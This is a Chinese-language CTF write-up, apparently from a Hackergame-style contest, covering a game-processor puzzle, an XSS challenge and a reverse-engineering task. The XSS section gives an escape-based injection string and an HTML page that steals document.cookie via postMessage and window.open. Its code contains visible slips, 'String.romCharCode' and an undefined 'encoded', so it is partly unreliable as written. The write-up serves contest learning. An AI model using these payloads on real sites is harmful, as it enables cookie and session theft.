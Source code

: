 ## 异星歧途

大概了解一下游戏的处理器就能做，大体流程就是看代码，光看代码不能确定的就多尝试，记得多存几个档防止爆炸，~~说多了都是泪。~~

## 微积分计算小练习 2.0

~~难度上看这题才是真正的 2.0。~~

随便玩玩会发现可以用 \x escape，用双引号可以逃出字符串，那么只要想个办法把要执行的 payload 从一个字数限制相对宽松的地方传进去即可，我用的是 url。
不过用 url 的话 payload 里就不能有被 urlencode 的字符了，比如双引号。

评论
```
\x3csvg "+location+"\x3e
```

网页
```html
<script>
    function load() {
        window.addEventListener("message", (event) => {
            let flag = event.data;
            const string_to_char_code = ([...string]) => {
                const array = string.map((char) => {
                    return char.charCodeAt(0);
                });
                return array.join(",");
            };
            let part = string_to_char_code(encoded.slice(0, 20));
            window.open(`http://web/result?/onload=f=document.body.firstElementChild.children[3];f.children[1].children[1].value=String.romCharCode(${part});f.children[2].click()`);
        });
        window.open("http://web/result?/onload=window.opener.postMessage(document.cookie,String.fromCharCode(42))");
    }
</script>
<body onload=load()>
```

flag 比较长，要分好几次发。拿出来以后用 CyberChef base64 decode + url decode 即可。

看官方 wp 感觉自己走了不少弯路，一个是传 payload 可以用 location.hash 或者是 name，这样就不涉及 urlencode 问题了。
还有就是明明不用把 flag 发回来处理的，用这个 post message 方法是查怎么避开 cors 时看到的，~~不知不觉就用了。~~


## 逆向工程不需要 F5

题目下载下来看到一堆 dll，粗略分析了一下，flag 长度不含 `flag{}` 一共 32 字节，有了这个信息我直接一个 angr 的启动，然后用各种姿势都没跑出结果。。。
于是换用 ida 的符号执行插件 ponce 做，在 main 里判断不正确的地方下断，跑 32 次就能把 flag 跑出来了。
